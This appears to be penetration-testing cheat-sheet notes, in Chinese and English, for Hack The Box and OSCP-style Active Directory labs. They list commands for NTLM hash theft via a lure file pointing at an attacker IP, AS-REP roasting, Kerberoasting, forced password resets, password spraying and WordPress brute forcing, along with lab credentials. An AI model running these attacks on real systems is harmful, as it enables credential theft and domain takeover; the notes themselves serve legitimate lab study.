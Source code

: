 ```
    Directory: C:\Users\f.frizzle\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---          10/24/2024  9:16 PM       30416987 wapt-backup-sunday.7z
```

## Ntlm-theft
- Path: `/home/chw/Tools/ntlm_theft`
- `python3 ntlm_theft.py -g lnk -s {Kali IP} -f chw`

# AD
## - AS-REP Roasting
- 找出無需 Kerberos preauthentication 的帳戶:
    - Windows: (PowerView.ps1)`Get-DomainUser -PreauthNotRequired`
    - Kali: `impacket-GetNPUsers frizz.htb/ -dc-ip 10.10.11.60 -no-pass -usersfile /usr/share/dirb/wordlists/others/names.txt`\
(`/usr/share/seclists/Usernames/top-usernames-shortlist.txt`)
- AS-REP Roasting
    - Windows: `.\Rubeus.exe asreproast /nowrap`
    - Kali: `impacket-GetNPUsers -dc-ip 192.168.181.70  -request -outputfile hashes.asreproast corp.com/pete`

如果無法找到啟用了 "Do not require Kerberos preauthentication" 的帳戶，但擁有某個用戶的 GenericWrite 或 GenericAll 權限
- 更改密碼：
- `impacket-changepasswd 'PUPPY/<目標 user>@dc.puppy.htb' -newpass 'Chwchw41'  -altuser 'PUPPY/<已知 user>' -altpass '<已知 user pwd>' -reset  -dc-ip 10.10.11.7`
- `Set-DomainObject -Identity "victim" -Set @{'userAccountControl'='4194304'}`
- 破解密碼後還原設定: `Set-DomainObject -Identity "victim" -Set @{'userAccountControl'='512'}`

## - Kerbrute passwordspray
- `kerbrute passwordspray -d frizz.htb --dc 10.10.11.60 \TheFrizz_user.txt '!suBcig@MehTed!R'`


## - Kerberoasting
- `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
-  NTLM 
    - `sudo impacket-GetUserSPNs -request -dc-ip 192.168.181.70 corp.com/pete`\
    - [-] NTLM negotiation failed.
- Kerberos
    - `impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip 10.10.11.60`
    - [*] Saving ticket in f.frizzle.ccache

# Vuln
### WPscan
- `wpscan --url {URL} --enumerate p --plugins-detection aggressive `
- user:
`wpscan --url {URL} --enumerate u`
- Brute password
`wpscan --url {URL} -U username.txt -P custom_wordlist.txt --force`
> username.txt 可從上方 enumerate 得知
